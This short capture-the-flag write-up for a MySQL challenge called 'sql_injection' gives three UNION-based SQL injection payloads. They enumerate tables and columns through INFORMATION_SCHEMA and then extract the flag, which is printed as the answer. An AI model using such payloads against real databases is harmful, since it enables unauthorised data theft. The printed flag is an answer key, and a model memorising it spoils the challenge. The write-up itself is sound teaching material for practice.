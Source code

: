 # sql_injection
`mysql`でなんか作ってみたよ！


## writeup

' UNION SELECT TABLE_NAME, TABLE_TYPE FROM INFORMATION_SCHEMA.TABLES #

' UNION SELECT COLUMN_NAME, 1 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = "flag_table" #

' union select flag, 1 from flag_table #

```
bunaiCTF{FL4SK_1S_USEFUL}
```